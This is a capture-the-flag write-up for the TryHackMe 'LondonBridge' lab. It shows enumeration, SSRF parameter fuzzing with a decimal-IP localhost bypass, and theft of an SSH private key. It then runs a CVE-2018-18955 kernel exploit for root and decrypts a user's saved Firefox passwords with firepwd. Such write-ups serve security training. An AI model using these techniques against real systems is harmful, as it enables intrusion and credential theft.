


[LondonBridge](https://tryhackme.com/room/thelondonbridge) is a Boot2Root CTF machine that focus on web enumeration and brute-forcing. 

Running `Nmap -A -T4 -v londonbridge.thm`:

```
Nmap scan report for londonbridge.thm (10.10.234.141)
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:c1:e4:79:ca:70:bc:3b:8d:b8:22:17:2f:62:1a:34 (RSA)
|   256 2a:b4:1f:2c:72:35:7a:c3:7a:5c:7d:47:d6:d0:73:c8 (ECDSA)
|_  256 1c:7e:d2:c9:dd:c2:e4:ac:11:7e:45:6a:2f:44:af:0f (ED25519)
8080/tcp open  http    Gunicorn
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: gunicorn
|_http-title: Explore London
Device type: general purpose
Running: Linux 4.X
```

`Gunicorn` is a python WSGI HTTP server. May or may not help us later on, but it's still good practice to keep note of this stuff.

Heading on over to the website we are greeted to:


Most of the buttons on the top don't do anything. except:
* Gallery, which leads us to a gallery where we can upload our own photos.

(checking the page source, we find a comment that suggests that at some point we will be able to upload photos via URL.)
```
<!--To devs: Make sure that people can also add images using links-->
```
(possible dev environment hidden somewhere?)
* Contact, which leads us to a contact page.

The gallery also exposes an `/upload`

Now I could fuzz for any upload vulnerabilities, but we haven't really went that deep with enumeration. Let's start enumerating for subdirectories.

running `feroxbuster --url http://londonbridge.thm:8080/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` I get:

```
200      GET       59l      127w     1703c http://londonbridge.thm:8080/contact
200      GET       54l      125w     1722c http://londonbridge.thm:8080/gallery
200      GET       82l      256w     2682c http://londonbridge.thm:8080/
405      GET        4l       23w      178c http://londonbridge.thm:8080/feedback
405      GET        4l       23w      178c http://londonbridge.thm:8080/upload
200      GET      230l     1199w    97517c http://londonbridge.thm:8080/uploads/caption.jpg
200      GET       57l      319w    27009c http://londonbridge.thm:8080/uploads/images.jpeg
200      GET      286l     1579w   125448c http://londonbridge.thm:8080/uploads/04.jpg
200      GET      344l     1947w   168990c http://londonbridge.thm:8080/uploads/www.usnews.jpeg
200      GET      363l     1894w   151239c http://londonbridge.thm:8080/uploads/e3.jpg
200      GET     2242l     8558w   712812c http://londonbridge.thm:8080/uploads/Thames.jpg
200      GET     6116l    36096w  2841008c http://londonbridge.thm:8080/uploads/Untitled.png
405      GET        4l       23w      178c http://londonbridge.thm:8080/view_image
200      GET       32l       67w      823c http://londonbridge.thm:8080/dejaview
```

`/dejaview` leads us to the comment we saw earlier. A webpage that allows us to input our own URL.\


This didn't feel like it would go anywhere as all it's doing is redirecting us to `/view_image` and setting an `` header to point to our URL.

`/feedback` is simply the follow-up page we are sent to after sending a message in `/contact`


We'll send over an XSS payload and setup a python HTTP server in the background. 



For the time being, let's try and see what we can do with the gallery. Attempting to upload a PHP file returns:  `Uploaded file is not an image`. so there is a check to determine whether or not our file is an image.

This can be done in many ways:
+ Checking the extension
+ Checking the MIME type
+ Checking the file signature
+ Pattern recognition of 

Me personally, I like to go the nuclear route.

(Quick note: PHP code is encased between `<?php` and `?>`. Anything outside of that will be ignored.)

I take the PHP file and replace the extension with `.jpg`. After that, i go into vim and add 4 random characters right before `<?php`. I then go into a hex editor and replace the 4 random characters with `FF 4F FF 51`, which is the file signature for a JPEG 2000 file.

This effectively allows us to bypass the majority of file checks we might stumble upon.

Strangely enough, this wasn't enough to bypass the file check. As a sanity check, I decided to a regular, untampered image.


There is more to the file check than i thought.

At this point I was stumped for quite a while. So I decided to check the hint provided in the room:

```Check for other parameters that may been left over during the development phase. If one list doesn't work, try another common one.```

I believe this is in reference to `/view_image` as it is technically the dev environment and it is supplied with POST data. 

Let's fuzz via `ffuf` and see where that gets us.

```
ffuf -u 'http://londonbridge.thm:8080/view_image' -X POST --data "FUZZ=/uploads/bedtime_at_11.jpg" -H 'Content-Type: application/x-www-form-urlencoded' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -fs 823
```

Thankfully, I got my results very quickly.
```
:: Progress: [207/87664] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: 
www                     [Status: 500, Size: 290, Words: 37, Lines: 5, Duration: 116ms]
```

A few minutes of playing around with it shows that it does what I hoped `image_url` would do. That is, it connects to external URLs.


attempting to connect to `localhost` or `127.0.0.1` returns `403 forbidden`. This is most likely a filtered address. we can bypass this through many means but I chose to encode `127.0.0.1` to decimal:
`http://2130706433/`



Some enumerating showed the following:
+ there is a website hosted at port 80 running off Django
+ subdirectories include `/template`, `/uploads` `/static` 
+ `/template` is the gallery with some django syntax to present  all uploads via a for loop
+ `/uploads` is shared between the internal website and the external website.

Now the wordlist I've been using is meant for web directories. But, that doesn't mean I can't use it to enumerate hidden directories. We can do this by simply appending a punctuation mark before the FUZZ keyword.

```
ffuf -u 'http://londonbridge.thm:8080/view_image' -X POST --data "www=http://2130706433/.FUZZ" -H 'Content-Type: application/x-www-form-urlencoded' -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -fs 469
```

We find some interesting directories:
```
...
cache                   [Status: 200, Size: 474, Words: 19, Lines: 18, Duration: 109ms]
ssh                     [Status: 200, Size: 399, Words: 18, Lines: 17, Duration: 123ms]
gnupg                   [Status: 200, Size: 372, Words: 17, Lines: 16, Duration: 123ms]
...
```

`/.ssh` has an `id_rsa` key and `authorized_key` suggests it belongs to a certain beth. Let's download this key and try logging into SSH as beth.

```
$ ssh beth@londonbridge.thm -i id_rsa
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Last login: Mon May 13 22:38:30 2024 from 192.168.62.137
beth@london:~$ 
```

As such, we are now able to access the user flag located at `__pycache__`.

For the root flag, I'll send over a linPEAS script to automate our work and see where that takes us. Something was immediately brought to my attention:

```
/home/beth/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```
the PATH variable shows that the `.local/bin` directory for beth takes precedence before any other system directory. root also happens to have a few python instances running off of files located in this directory:

```
root       455  0.0  1.1  75640 22164 ?        Ss   Sep15   0:00 /usr/bin/python3 /home/beth/.local/bin/gunicorn --config gunicorn_config.py app:app
root       457 14.4  2.4 405160 49656 ?        Sl   Sep15  14:39  _ /usr/bin/python3 /home/beth/.local/bin/gunicorn --config gunicorn_config.py app:app
root       458  5.7  2.3 403500 47640 ?        Sl   Sep15   5:50  _ /usr/bin/python3 /home/beth/.local/bin/gunicorn --config gunicorn_config.py app:app
```

unfortunately however, there isn't much we can do beyond this. Modifying the file won't do much as the processes don't periodically restart. So i decided to check if there are any other possible vectors.

I tried to use the baron samedit exploit but that didn't work.
What did, however, was the subuid_shell exploit.

Recall in our nmap scan that nmap reported linux 4.15. Running `uname -a` shows that that is indeed the case.
```
Linux london 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

looking up `4.15.0-112 ubuntu exploit` got me [this wrapper for CVE-2018-18955](https://github.com/scheatkode/CVE-2018-18955)

Trying out each script, one of them yields something nice.

```
$ ./exploit.dbus.sh 
[*] Compiling...
[*] Creating /usr/share/dbus-1/system-services/org.subuid.Service.service...
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 100000
[.] subgid: 100000
[~] done, mapped subordinate ids
[.] executing subshell
[*] Creating /etc/dbus-1/system.d/org.subuid.Service.conf...
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 100000
[.] subgid: 100000
[~] done, mapped subordinate ids
[.] executing subshell
[*] Launching dbus service...
Error org.freedesktop.DBus.Error.NoReply: Did not receive a reply. Possible causes include: the remote application did not send a reply, the message bus security policy blocked the reply, the reply timeout expired, or the network connection was broken.
[+] Success:
-rwsrwxr-x 1 root root 8392 Sep 17 09:31 /tmp/sh
[*] Cleaning up...
[*] Launching root shell: /tmp/sh
$ whoami
root
```

And with that, we should be able to obtain the root flag.

Well, almost.

```
$ ls

flag.py  flag.pyc  __pycache__  test.py
```

contents of `flag.py` and `flag.pyc` is just beth's `id_rsa` key. Turns out the bastards decided to pull one small trick from up their sleeves

```
$ ls -la

total 52
drwx------  6 root root 4096 Sep 17 09:40 .
drwxr-xr-x 23 root root 4096 Apr  7  2024 ..
lrwxrwxrwx  1 root root    9 Sep 18  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 Apr 23  2024 .cache
-rw-r--r--  1 beth beth 2246 Mar 16  2024 flag.py
-rw-r--r--  1 beth beth 2481 Mar 16  2024 flag.pyc
drwx------  3 root root 4096 Apr 23  2024 .gnupg
drwxr-xr-x  3 root root 4096 Sep 16  2023 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  2 root root 4096 Mar 16  2024 __pycache__
-rw-rw-r--  1 root root   27 Sep 18  2023 .root.txt
-rw-r--r--  1 root root   66 Mar 10  2024 .selected_editor
-rw-r--r--  1 beth beth  173 Sep 17 09:40 test.py

$ cat .root.txt 
<redacted>
```

Well thats all well and done. All that is left is to crack charles' password. To do this, we first pull charles' password from `/etc/shadows` and slap it onto a file in order to pass it to john the ripper or hashcat.

Problem is, CTF hash cracking rarely takes more than 10 minutes. Going over this is a good indicator that this is probably not the proper way to go about it. If we are luckily, we might be able to do some credential harvesting.

Remember, we are root. We can browse charles' home folder now.

```
$ cd /home/charles/
$ ls
$ ls -la
total 24
drw------- 3 charles charles 4096 Apr 23  2024 .
drwxr-xr-x 4 root    root    4096 Mar 10  2024 ..
lrwxrwxrwx 1 root    root       9 Apr 23  2024 .bash_history -> /dev/null
-rw------- 1 charles charles  220 Mar 10  2024 .bash_logout
-rw------- 1 charles charles 3771 Mar 10  2024 .bashrc
drw------- 3 charles charles 4096 Mar 16  2024 .mozilla
-rw------- 1 charles charles  807 Mar 10  2024 .profile
```

a `.mozilla` folder. Traversing some more shows us something more promising.

```
# ls
...
logins.json
logins-backup.json
key4.db
...
```

`logins.json` and `key4.db` can be used in conjunction with [firepwd](https://github.com/lclevy/firepwd) to extract passwords (assuming charles didn't put a master password). Putting firepwd directly in charles' mozilla profile:
```
$ python3 firepwd.py
...
decrypting login/password pairs
https://www.buckinghampalace.com:b'Charles',b'<redacted>'
```

This was a pretty hard challenge overall. It required quite a lot of attention to really find any weak points in contrast to other machines. Not bad.